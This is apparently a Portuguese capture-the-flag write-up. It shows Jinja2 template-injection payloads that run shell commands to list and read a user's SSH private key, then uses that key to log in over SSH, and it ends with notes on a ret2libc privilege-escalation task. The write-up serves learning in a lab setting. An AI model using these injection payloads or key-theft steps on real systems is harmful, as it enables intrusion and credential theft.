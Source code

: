 
`{{config.__class__.__init__.__globals__['os'].popen('ls -lah /home/duck/.ssh').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAtbGFoIC9ob21lL2R1Y2svLnNzaCcpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
![[ssti_ls4.png]]

total 20K 
drwx------ 2 duck duck 4.0K Aug 14 08:50 . 
drwxr-xr-x 8 duck duck 4.0K Aug 22 17:49 .. 
-rw-rw-r-- 1 duck duck 570 Aug 14 08:50 authorized_keys 
-r-------- 1 duck duck 2.6K Aug 14 08:49 id_rsa 
-r--r--r-- 1 duck duck 570 Aug 14 08:49 id_rsa.pub

`{{config.__class__.__init__.__globals__['os'].popen('cat /home/duck/.ssh/id_rsa').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdjYXQgL2hvbWUvZHVjay8uc3NoL2lkX3JzYScpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
![[id_rsa.png]]

copiar para id_rsa
chmod 600 id_rsa
ssh -i id_rsa duck@tribopapaxota.org
![[duck.png]]

QUACK{duck_h45_b33n_pwn3d}

Tive que deixar uma mensagem :)
![[duck_message.png]]

## **Task Linux - Root**
**WOOP WOOP GOT ROOT?** Suba ao topo da hierarquia e governe o sistema.
### **Resposta**
---------------------------------- DURANTE 2 LONGOS DIAS --------------------------------------
1. copiei para o meu PC os ficheiros duck2root e libc.so.6
![[files.png]]
2. ja tinha visto alguns blogues sobre binary exploitation e lembrei do comando `checksec` para ver as proteções no binário
![[checksec.png]]
vi q tinha NX e fui pesquisar sobre "ELF binary exploitation NX bypass" e vi um termo um pouco familiar "ret2libc", pesquisando mais sobre encontrei o seguinte blog
https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/
mas eu queria mais, procurando no YT por videos de ret2libc até que encontrei 
https://www.youtube.com/watch?v=tMN5N5oid2c
(era exatamente o que eu estava á procura, explicando em detalhe, cada passo, até um pouco de bases fundamentais)

O que instalar:
gbg gef - https://github.com/hugsy/gef
pwntools (pip3 install pwn)
pwninit - https://github.com/io12/pwninit/releases/download/3.3.1/pwninit
